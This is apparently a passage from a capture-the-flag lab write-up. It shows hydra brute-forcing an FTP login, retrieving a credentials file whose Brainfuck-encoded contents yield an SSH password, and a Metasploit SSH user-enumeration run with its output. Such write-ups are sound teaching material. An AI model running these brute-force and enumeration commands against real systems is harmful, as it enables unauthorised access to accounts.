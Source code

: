 ## gaining access
### ftp

Copy potential passwords into `ftplist.txt`

`root@ip-10-10-159-20:~# hydra -vv -l ftpuser -P ftplist.txt 10.10.138.209 ftp`

```
[21][ftp] host: 10.10.138.209   login: ftpuser   password: 5iez1wGXKfPKQ
```

`ftp> get Eli's_Creds.txt`

```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

https://sange.fi/esoteric/brainfuck/impl/interp/i.html

```
User: eli

Password: DSpDiM1wAEwid
```
### ssh

I started user enumeration earlier and it also found `eli`.


`msf6 auxiliary(scanner/ssh/ssh_enumusers) > run`

```
[*] 10.10.138.209:22 - SSH - Using malformed packet technique
[*] 10.10.138.209:22 - SSH - Starting scan
[+] 10.10.138.209:22 - SSH - User 'mail' found
[+] 10.10.138.209:22 - SSH - User 'root' found
[+] 10.10.138.209:22 - SSH - User 'news' found
[+] 10.10.138.209:22 - SSH - User 'man' found
[+] 10.10.138.209:22 - SSH - User 'bin' found
[+] 10.10.138.209:22 - SSH - User 'games' found
[+] 10.10.138.209:22 - SSH - User 'nobody' found
[+] 10.10.138.209:22 - SSH - User 'backup' found
[+] 10.10.138.209:22 - SSH - User 'daemon' found
[+] 10.10.138.209:22 - SSH - User 'proxy' found
[+] 10.10.138.209:22 - SSH - User 'list' found
[+] 10.10.138.209:22 - SSH - User 'eli' found
[+] 10.10.138.209:22 - SSH - User 'sys' found
[+] 10.10.138.209:22 - SSH - User 'pulse' found


```
